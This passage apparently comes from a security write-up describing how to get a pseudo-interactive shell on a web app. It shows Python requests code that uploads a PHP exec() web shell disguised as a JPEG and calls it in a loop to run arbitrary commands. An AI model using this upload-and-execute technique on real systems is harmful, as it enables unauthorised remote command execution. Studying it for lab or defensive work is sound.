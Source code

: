 This can then be posted to the upload url
using the session that we're logged into the bla account
on.

    :::python
    s.post(upload_url, files=files)

Now that the file with the payload has been uploaded,
all that needs to be done is to directly access it via
a GET request and we'll have the command output.

    :::python
    get = s.get(image_url)

To demonstrate I used the python shell with the previously
authenticated session object to post a payload
that will cat the hostname.

![Interactive post and execute](images/fake-shell-with-python-requests/interactivecmd.png)

All of this can be put into a while loop that queries
the user for a command and prints the result.

    :::python
    while cmd != 'exit':
        cmd = input('> ')
        get = s.get(upload_url)
    
        files = [
            ('uploadedfile', 
                ('boop.php',
                '<?php echo exec("' + cmd + '");?>',
                'image/jpeg')
            )
        ]
        s.post(upload_url, files=files)
        get = s.get(image_url)
    
        print(get.text)

We now have a fully interactive shell where we can
enter commands and see the output immediately! There
did seem to be a slight issue though. Only one line
of output from the command was being returned.
